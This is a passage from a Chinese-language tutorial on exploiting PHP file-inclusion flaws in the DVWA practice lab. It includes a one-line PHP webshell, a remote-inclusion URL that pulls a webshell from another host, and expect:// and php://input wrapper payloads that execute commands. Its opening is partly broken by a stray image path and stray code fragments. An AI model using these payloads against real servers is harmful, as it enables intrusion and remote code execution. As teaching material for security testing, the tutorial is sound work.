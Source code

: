 ```<?php @eval($_POST['cmd']);?>```
}
?>
```

**3.远程包含url和php木马**

如果目标主机的"allow_url_fopen"是激活的（默认是激活的），我们就可以有更大的利用空间，我们可以指定其它URL上的一个包含PHP代码的webshell来直接运行

不需要后缀名是php、asp的格式，只要内容是代码就可以。

出现概率少于本地包含，但更容易被利用

 

如在自己服务器上写上一句话代码，然后用远程包含漏洞去包含这个链接，

http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://192.168.0.117/a.php

 

然后同上，用菜刀连接，获取webshell。



**PHP封装**

PHP的大量封装经常被滥用，有可能导致绕过输入过滤。

在PHP中还内置了一些类似于URL中的PHP伪协议，我们可以利用这些伪协议来帮助我们实现更加高级的文件包含功能

常见的PHP伪协议：

1.File:// 访问本地文件系统

2.http:// 访问HTTP(S)网址

3.php:// 访问各个输入/输出流

4.data:// 数据

 

**PHP Expect封装**

PHP的“expect://”允许执行系统命令，不过，PHP expect模块在默认情况下是没有启用的。

```url
php?page=expect://ls
```

**PHP file://封装**

#### php://input

1. 解释

上面的filter既然能读文件，肯定还能写文件，这就可以利用input将数据POST过去，即`php://input`是用来接收`post`数据的

1. 用法

2. ```
   ?file=php://input将数据利用POST方式传过去
   ```

3. ​


1. 注意
   如果`php.ini` 里的 `allow_url_include=On(PHP < 5.30)`，就可以造成任意代码执行，在这里可以理解成远程文件包含漏洞（RFI），即POST过去一句话，即可执行
2. 例子
   当碰到 `file_get_contents()` 就要想到用 php://input 绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项

> 当head头有`enctype="multipart/form-data"`时，该协议无效

下图是一个带有payload的POST请求：

![http://p3.qhimg.com/t01fe37b211002000fa.png](https://p5.ssl.qhimg.com/t01fe37b211002000fa.png)
   ```